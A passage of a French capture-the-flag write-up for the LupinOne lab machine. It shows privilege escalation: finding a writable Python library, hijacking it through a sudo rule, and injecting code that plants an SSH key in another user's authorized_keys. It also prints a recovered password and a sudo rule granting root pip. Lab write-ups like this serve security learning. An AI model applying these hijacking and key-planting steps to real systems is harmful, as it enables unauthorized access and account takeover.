 Le code Python *heist.py* n'est pas modifiable par nous. Il ne fait qu'utiliser le module Python webrowser (qui permet d'ouvrir une page web sur votre système avec le navigateur par défaut).  

Du coup je ne suis pas vraiment surpris de retrouver le module parmi la liste des fichiers que je peux modifier :  

```console
$ find / -writable 2> /dev/null  | grep -v /proc | grep -v /run

--- snip ---
/usr/lib/python3.9/webbrowser.py
--- snip ---

```

Maintenant comment lancer *heist.py* avec les droits d'Arsène ? Tâche planifiée ? En fait l'autorisation est donnée via sudo :  

```console
$ sudo -l
Matching Defaults entries for icex64 on LupinOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User icex64 may run the following commands on LupinOne:
    (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
```

J'ai repris exactement la même méthodologie que pour le précédent CTF à savoir ajouter du code Python qui ajoute ma clé publique aux clés autorisées pour l'utilisateur :  

```python
import os
import stat

os.mkdir("/home/arsene/.ssh")
with open("/home/arsene/.ssh/authorized_keys", "w") as fd:
  fd.write("ssh-rsa --my-public-ssh-key--")

os.chmod("/home/arsene/.ssh/authorized_keys", stat.S_IREAD|stat.S_IWRITE)
```

Trophé
------

Une fois connecté en tant qu'Arsène ou peut lire le fichier secret :  

```console
arsene@LupinOne:~$ cat .secret 
I dont like to forget my password "rQ8EE"UK,eV)weg~*nd-`5:{*"j7*Q"
```

Que peut-on faire avec un mot de passe ? Commençons par regarder du côté de sudo:  

```console
arsene@LupinOne:~$ sudo -l
Matching Defaults entries for arsene on LupinOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User arsene may run the following commands on LupinOne:
    (root) NOPASSWD: /usr/bin/pip
```
